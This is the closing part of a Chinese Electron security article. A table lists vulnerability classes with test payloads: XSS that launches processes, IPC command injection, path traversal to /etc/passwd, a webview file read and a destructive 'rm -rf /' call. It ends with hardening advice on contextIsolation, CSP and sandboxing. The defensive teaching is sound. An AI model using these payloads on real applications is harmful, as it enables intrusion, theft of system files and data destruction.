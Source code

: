 <table><tbody><tr><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span><span leaf="">漏洞类型    </span></span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span><span leaf="">特征</span></span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span><span leaf="">测试Payload</span></span></p></td></tr><tr><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span><span leaf="">直接Node执行 </span></span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span><span leaf="">nodeIntegration: true</span></span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span><span leaf="">&lt;img src=x onerror=&#34;require(&#39;child_process&#39;).exec(&#39;calc.exe&#39;)&#34;&gt;</span></span></p></td></tr><tr><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span><span leaf="">IPC命令注入</span></span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span><span leaf="">IPC调用</span></span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span><span leaf="">exec/system ipcRenderer.send(&#39;exec&#39;,&#39;touch /tmp/pwned&#39;)</span></span></p></td></tr><tr><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span><span leaf="">协议路径遍历</span></span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span><span leaf="">未过滤的自定义协议</span></span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span><span leaf="">&lt;iframe src=&#34;app://../../etc/passwd&#34;&gt;</span></span></p></td></tr><tr><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span><span leaf="">Webview逃逸</span></span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span><span leaf="">Webview启用Node</span></span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span><span leaf="">&lt;webview&gt;.executeJavaScript(&#34;require(&#39;fs&#39;).readFileSync(&#39;/etc/passwd&#39;)&#34;)</span></span></p></td></tr><tr><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span><span leaf="">预加载脚本漏洞</span></span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span><span leaf="">暴露危险API</span></span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span><span leaf="">window.api.runCommand(&#39;rm -rf /&#39;) </span></span></p></td></tr></tbody></table>####   
#### 总结  
- 关闭 nodeIntegration、启用 contextIsolation、严格 CSP 与输入过滤，是底线中的底线！  
  
- 最后防线：即使所有防护失效，通过系统级沙箱（如 App Sandbox on macOS）限制 Electron 应用权限，防止系统级灾难  
  

